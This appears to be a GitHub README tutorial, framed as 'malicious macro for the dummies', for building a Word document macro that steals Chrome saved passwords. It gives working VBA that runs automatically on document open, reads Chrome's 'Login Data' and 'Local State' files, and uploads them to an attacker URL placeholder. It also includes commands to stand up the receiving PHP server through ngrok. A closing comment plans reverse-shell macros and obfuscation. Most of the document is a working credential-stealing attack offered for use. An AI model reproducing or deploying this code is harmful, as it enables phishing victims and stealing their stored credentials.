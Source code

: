 # The word is yours





<div align=center>
<img src=https://github.com/ariary/WordTrojan/blob/main/img/logo.png width=180>
<br><strong><i>Malicious macro for the dummies<sup>*</sup></i></strong>
<br><sup>* In fact it is for me</sup> 

  🔫 <strong>•</strong> 🥷 <strong>•</strong> 🫖
</div> 


## Context

It is well-known that macro is a great vector of attack to execute malicious code on victim device. The approach is basically to make the victim open an MS document which will run code using Macro.

Macro are written in VBA which is a precompiled language (⇒ easy to reverse.. argh).

We suppose the victim is using Windows.

### What we want to do?

To discover a bit the macro world. Our aim is to steal credentials stored in the Chrome password manager. The scenario is the following:
* Transfer malicious word document to victim *(out-of-scope: use social-engineering,phishing, ..)*
* Encourage them to open it + enable macro
  * The macro will retrieve the files containing credentials, then send them to C2 server
* On C2 server we will decrypt the credentials

## 🔫 Naive approach

- [Retrieve sensitive files and send it from word](#retrieve-sensitive-files-and-send-it-from-word)
- [Receive files on Attacker side](#receive-files-on-attacker-side)
- [Let's Contemplate the explosion](#lets-contemplate-the-explosion)
- [Caveat](#caveat)

> 💡 **Create Macro**: in your word document *View* > Macros > view macros > Edit

### Retrieve sensitive files and send it from word

The macro payload reads the differents files containing Chrome passwords and send them to C2 server. Translate it in VBA:
```VBA
Private Function pvPostFile(sUrl As String, sFileName As String, Optional ByVal bAsync As Boolean) As String
    Const STR_BOUNDARY  As String = "3fbd04f5-b1ed-4060-99b9-fca7ff59c113"
    Dim nFile           As Integer
    Dim baBuffer()      As Byte
    Dim sPostData       As String
 
    '--- read file
    nFile = FreeFile
    Open sFileName For Binary Access Read As nFile
    If LOF(nFile) > 0 Then
        ReDim baBuffer(0 To LOF(nFile) - 1) As Byte
        Get nFile, , baBuffer
        sPostData = StrConv(baBuffer, vbUnicode)
    End If
    Close nFile
    '--- prepare body
    sPostData = "--" & STR_BOUNDARY & vbCrLf & _
        "Content-Disposition: form-data; name=""uploadfile""; filename=""" & Mid$(sFileName, InStrRev(sFileName, "\") + 1) & """" & vbCrLf & _
        "Content-Type: application/octet-stream" & vbCrLf & vbCrLf & _
        sPostData & vbCrLf & _
        "--" & STR_BOUNDARY & "--"
    '--- post
    With CreateObject("Microsoft.XMLHTTP")
        .Open "POST", sUrl, bAsync
        .SetRequestHeader "Content-Type", "multipart/form-data; boundary=" & STR_BOUNDARY
        .Send pvToByteArray(sPostData)
        If Not bAsync Then
            pvPostFile = .ResponseText
        End If
    End With
End Function
 
Private Function pvToByteArray(sText As String) As Byte()
    pvToByteArray = StrConv(sText, vbFromUnicode)
End Function
```
(from [wqweto](https://wqweto.wordpress.com/2011/07/12/vb6-using-wininet-to-post-binary-file/))

Now call this function to send the files we want:
```VBA
Private Sub Malware()
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Local State"
    pvPostFile "https://[ATTACKER_URL]/upload.php?id=[TARGET_ID]", "C:\Users\" & Environ("username") & "\AppData\Local\Google\Chrome\User Data\Default\Login Data"
End Sub

Private Sub Launch()
    Malware
End Sub

Sub AutoOpen()
    ' Becomes launched as first on MS Word
    Launch
End Sub

Sub Document_Open()
    ' Becomes launched as second, another try, on MS Word
    Launch
End Sub
```
`Document_Open` and `AutoOpen` are special functions which are automatically executed when the word document is open.

### Receive files on Attacker side

[`php/upload.php`](https://github.com/ariary/TheWordIsYours/blob/main/php/upload.php) is the php file in charge of receiving uploaded file (with `multipart/form-data`).

Launch the server (from here) and expose it (with `ngrok`, for test purpose only):
```shell
php -S localhost:8080 -t php

#On another tab
ngrok http 8080
```
Let's copy your ngrok https endpoint and replace `[ATTACKER_URL]` in the macro

### Let's Contemplate the explosion

Now open the word document (on a windows machine please) and **bang**, see that it has discreetly exfiltrated the documents on your attacking machine.

Now that we have what we want, proceed to password decryption on attacker machine (which is the coolest part)

*.. to do*

### Caveat

* Our macro payload lets a lot of information through that will allow a blue team to trace you easily as well as defend themselves
* Target must enable macros to trigger the payload *(sometimes it is by default sometimes not, don't ask me)*

## 🥷 On the road to stealth
*.. to do*
### Encrypt payload
### Hide keys
### Enhance target to enable macros

<!--Example of revershell macro in word document

See https://vunnm.files.wordpress.com/2018/09/article_macro_reverse_shell.pdf

And https://www.thedecentshub.tech/2021/08/reverse-shell-from-word-documents.html

Obfuscation: https://connect.ed-diamond.com/MISC/misc-087/automatisation-d-une-obfuscation-de-code-vba-avec-vbad

For macro useful tool: https://github.com/CaledoniaProject/awesome-opensource-security/blob/master/office-tools.md
1. Create macro (reverseshell + social engineering)
2. Force victime to click on enable content
3. Get reverse shell

Faire aussi un payload qui récupère les mdp enregistrés par chrome ou Firefox -->
